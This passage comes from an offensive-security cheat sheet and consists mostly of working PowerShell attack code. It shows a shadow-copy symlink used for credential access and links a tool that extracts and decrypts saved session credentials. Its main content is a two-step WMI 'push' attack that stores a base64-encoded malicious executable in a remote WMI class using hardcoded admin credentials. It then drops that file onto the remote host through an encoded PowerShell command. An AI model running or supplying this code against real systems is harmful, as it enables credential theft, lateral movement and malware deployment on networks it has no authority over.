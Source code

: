 Create a symlink for the created shadow copy
```
$link = (Get-WmiObject -Class Win32_ShadowCopy).DeviceObject + "\"
cmd /c mklink /d C:\shadowcopy "$link"
```

## Exploitation
Extracts and decrypts saved session information for software typically used to access Unix systems. [Invoke-SessionGopher.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-SessionGopher.ps1)


## Lateral movement

#### WMI Attacks – C2 Communication (WMI Class) – “Push” Attack
- https://github.com/mattifestation/WMI_Backdoor
  
**First Step** - Push file contents to remote WMI repository
```
# Prep file to drop on remote system
$LocalFilePath = 'C:\Users\lutz\Documents\maliciousfile.exe'
$FileBytes = [IO.File]::ReadAllBytes($LocalFilePath)
$EncodedFileContentsToDrop = [Convert]::ToBase64String($FileBytes)
# Establish remote WMI connection
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'Administrator'
$Options.Password = 'user'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
$Connection.Path = '\\192.168.2.10\root\default'
$Connection.Options = $Options
$Connection.Connect()
# "Push" file contents
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
$EvilClass['__CLASS'] = 'Win32_EvilClass'
$EvilClass.Properties.Add('EvilProperty', [Management.CimType]::String, $False)
$EvilClass.Properties['EvilProperty'].Value = $EncodedFileContentsToDrop
$EvilClass.Put()
```

**Second Step** - Drop file contents to remote system
```
$Credential = Get-Credential 'CORP.local\admin'
$CommonArgs = @{
Credential = $Credential
ComputerName = '192.168.2.10'
}
$PayloadText = @'
$EncodedFile = ([WmiClass] 'root\default:Win32_EvilClass').Properties['EvilProperty'].Value
[IO.File]::WriteAllBytes('C:\reconstructedMaliciousFile.exe', [Convert]::FromBase64String($EncodedFile))
'@
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($PayloadText))
$PowerShellPayload = "powershell -NoProfile -EncodedCommand $EncodedPayload"
# Drop it like it's hot
Invoke-WmiMethod @CommonArgs -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
# Confirm successful file drop
Get-WmiObject @CommonArgs -Class CIM_DataFile -Filter 'Name = "C:\\reconstructedMaliciousFile.exe"'
```
